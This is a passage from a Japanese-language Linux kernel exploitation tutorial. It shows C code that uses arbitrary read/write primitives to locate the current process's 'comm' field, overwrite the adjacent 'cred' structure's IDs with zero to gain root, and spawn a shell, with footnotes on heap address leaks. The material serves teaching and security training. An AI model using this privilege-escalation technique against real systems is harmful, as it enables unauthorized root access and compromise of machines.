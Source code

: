 ```c

    if (AAR32(addr) == 0x6f6b656e
        && AAR32(addr+4) == 0x7572616d) {
      printf("[+] Found 'comm' at 0x%016lx\n", addr);
      break;
    }
  }
```
`comm`の場所が分かったら、直前の`cred`を書き換えましょう。
```c
  unsigned long addr_cred = 0;
  addr_cred |= AAR32(addr - 8);
  addr_cred |= (unsigned long)AAR32(addr - 4) << 32;
  printf("[+] current->cred = 0x%016lx\n", addr_cred);

  // 実効IDの上書き
  for (int i = 1; i < 9; i++) {
    AAW32(addr_cred + i*4, 0); // id=0(root)
  }

  puts("[+] pwned!");
  system("/bin/sh");
```
次のように権限昇格できていれば成功です。

<center>
  <img src="img/hbof_cred.png" alt="cred構造体の書き換えによる権限昇格" style="width:400px;">
</center>


[^1]: オブジェクトのサイズはカーネルのバージョンによって変わる可能性があるので注意しましょう。
[^2]: これはLinuxが提供する双方向リストのポインタです。mutexなどを利用すると作られるためカーネル中の多くのオブジェクトに存在し、ヒープアドレスリークに役立ちます。
[^3]: その変数を使う関数を逆アセンブルしてアドレスを特定する方法もあります。